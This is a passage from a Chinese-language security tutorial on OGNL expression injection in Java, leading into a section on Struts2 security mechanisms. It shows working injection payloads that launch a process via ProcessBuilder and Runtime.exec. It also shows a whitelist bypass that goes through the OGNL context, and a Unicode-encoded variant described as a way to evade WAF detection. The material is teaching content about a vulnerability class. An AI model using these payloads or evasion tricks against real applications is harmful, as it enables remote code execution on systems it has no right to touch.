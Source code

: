 ```java
/**
 * Ognl.parseExpression() --> Ognl.getValue()/Ognl.setValue()
 */
public static void sinkThree()throws Exception{
    String expression="((new java.lang.ProcessBuilder(new java.lang.String[]{\"calc\"})).start())(glassy)(asd)";
    OgnlContext context = new OgnlContext();
    Object o = Ognl.parseExpression(expression);
    Ognl.setValue(o,context,"");
}

/**
* Bypass Whitelist Check
* 先将恶意的Ognl表达式放入Ognl上下文中，然后再调用上下文中的恶意Ognl表达式来执行
*/
public static void sinkFive()throws Exception{
    // 模拟绕过白名单检查，先将恶意的Ognl表达式放入Ognl的上下文中
    String preExpression="(@java.lang.Runtime@getRuntime().exec('calc'))(meh)";
    OgnlContext context = new OgnlContext();
    context.put("key",preExpression);
    // 然后再准备调用已存入Ognl上下文中的恶意表达式
    String attackStr="(key)('pinger')";
    Ognl.setValue(attackStr,context,true);
}
```

需要 **特别注意** 的是：***Ognl表达式支持UNICODE编码(\u0023)*** 。所以作为攻击者可以使用这种方式绕过WAF检测。

例如如下案例所示，使用UNICODE编码可以成功造成Ognl表达式注入：

```java
/**
 * Unicode Bypass
 */
public static void sinkFour()throws Exception{
    String expression="\\u0028\\u0028\\u006e\\u0065\\u0077 \\u006A\\u0061\\u0076\\u0061\\u002E\\u006C\\u0061\\u006E\\u0067\\u002E\\u0050\\u0072\\u006F\\u0063\\u0065\\u0073\\u0073\\u0042\\u0075\\u0069\\u006C\\u0064\\u0065\\u0072(\\u006E\\u0065\\u0077\\u0020\\u006A\\u0061\\u0076\\u0061\\u002E\\u006C\\u0061\\u006E\\u0067\\u002E\\u0053\\u0074\\u0072\\u0069\\u006E\\u0067\\u005B\\u005D\\u007B\"calc\"\\u007D\\u0029\\u0029\\u002E\\u0073\\u0074\\u0061\\u0072\\u0074\\u0028\\u0029\\u0029\\u0028\\u006F\\u006E\\u0065\\u0029\\u0028\\u0074\\u0077\\u006F\\u0029";
    OgnlContext context = new OgnlContext();
    Object o = Ognl.parseExpression(expression);
    Ognl.setValue(o,context,"");
}
```

![image-20210813102029114](/media/image-20210813102029114.png)

## Struts2安全机制

先将Struts2的一些安全机制以及一些常见问题先说明下，方便后续的理解。
